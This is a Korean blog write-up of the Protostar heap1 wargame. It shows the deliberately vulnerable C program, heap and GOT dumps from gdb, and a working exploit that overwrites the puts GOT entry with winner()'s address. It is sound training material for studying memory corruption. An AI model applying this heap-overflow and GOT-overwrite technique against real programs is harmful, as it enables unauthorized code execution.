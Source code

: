 ```yaml
---
layout: post
title: "[exploit-exercise] Protostar heap1"
description: "Wargame Protostar Heap1 풀이"
category: wargame
tags:  [heap]
---
```


[Protostar Heap1 - Exploit Exercises](https://exploit-exercises.com/protostar/heap1/)

>This level takes a look at code flow hijacking in data overwrite cases.
>This level is at /opt/protostar/bin/heap1

<!--more-->
 
## Source

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```


## Initial execution

```bash
$ ./heap1
Segmentation fault (core dumped)

$ ./heap1 AAAA BBBB
and that's a wrap folks!

$ ltrace ./heap1 AAAA BBBB
__libc_start_main(0x80484b9, 3, 0xffffcdd4, 0x8048580 <unfinished ...>
malloc(8)                                                                                   = 0x804a008
malloc(8)                                                                                   = 0x804a018
malloc(8)                                                                                   = 0x804a028
malloc(8)                                                                                   = 0x804a038
strcpy(0x804a018, "AAAA")                                                                   = 0x804a018
strcpy(0x804a038, "BBBB")                                                                   = 0x804a038
puts("and that's a wrap folks!"and that's a wrap folks!
)                                                            = 25
+++ exited (status 25) +++
```


## Analysis

```
i1 =       0x0804a008
i1->name = 0x0804a018

i2 =       0x0804a028
i2->name = 0x0804a038
```


```
gef➤  x/50x 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x41414141      0x00000000
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x42424242      0x00000000
0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
```

`pwndbg` 는 `heap` 명령어도 heap 상황을 print 해주는 명령어가 있군요.

```
pwndbg> heap
Top Chunk: 0x804a040
Last Remainder: 0

0x804a000 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x1,
  bk = 0x804a018,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a010 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x41414141,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a020 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x2,
  bk = 0x804a038,
  fd_nextsize = 0x0,
  bk_nextsize = 0x11
}
0x804a030 FASTBIN {
  prev_size = 0,
  size = 17,
  fd = 0x42424242,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x20fc1
}
0x804a040 PREV_INUSE {
  prev_size = 0,
  size = 135105,
  fd = 0x0,
  bk = 0x0,
  fd_nextsize = 0x0,
  bk_nextsize = 0x0
}
```

`strcpy(i2->name, argv[2]);` 수행 시에 입력 값을 `i2->name` 으로 alloc 받은 pointer 로 copy 를 하게 된다. 이 값을 `printf` 함수의 GOT 값으로 설정을 하고, 입력 값을 `winner()` 함수 주소로 넣어준다면 `printf()` 함수 수행 시에 `winner()` 함수가 수행될 것이다. 


#### `printf` 의 GOT 주소 확인 : `0x08049774`

Exploit 할 마지막 `printf` 포함된 assem code 를 보면 아래와 같이 `puts` 로 대치되어 있다. argument 별로 없는 짧은 경우 `printf` 가 `puts` 로 compile 된다고 들은 것 같다.

```
   0x08048552 <+153>:   mov    DWORD PTR [esp],eax
   0x08048555 <+156>:   call   0x804838c <strcpy@plt>
   0x0804855a <+161>:   mov    DWORD PTR [esp],0x804864b
   0x08048561 <+168>:   call   0x80483cc <puts@plt>
   0x08048566 <+173>:   leave
   0x08048567 <+174>:   ret
```



```
pwndbg> got
[*] '/media/psf/Home/_2O2L2H/github/awesome-ctf-wargame/wargame/protostar/heap/heap1/heap1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

GOT protection: No RELRO | GOT functions: 7

[0804975c] __gmon_start__ -> 0x8048372 (__gmon_start__@plt+6) ◂— push   0 /* 'h' */
[08049760] __libc_start_main@GLIBC_2.0 -> 0x8048382 (__libc_start_main@plt+6) ◂— push   8
[08049764] strcpy@GLIBC_2.0 -> 0x8048392 (strcpy@plt+6) ◂— push   0x10
[08049768] printf@GLIBC_2.0 -> 0x80483a2 (printf@plt+6) ◂— push   0x18
[0804976c] time@GLIBC_2.0 -> 0x80483b2 (time@plt+6) ◂— push   0x20 /* 'h ' */
[08049770] malloc@GLIBC_2.0 -> 0x80483c2 (malloc@plt+6) ◂— push   0x28 /* 'h(' */
[08049774] puts@GLIBC_2.0 -> 0x80483d2 (puts@plt+6) ◂— push   0x30 /* 'h0' */
```


#### `winner()` 함수 주소 확인 : `0x8048494`

```
pwndbg> p winner
$1 = {void (void)} 0x8048494 <winner>
```



## Exploit

```bash
$ ./heap1 $(python -c 'print "AAAA" * 5 + "\x74\x97\x04\x08"') $(python -c 'print "\x94\x84\x04\x08"')
and we have a winner @ 1497206645
```

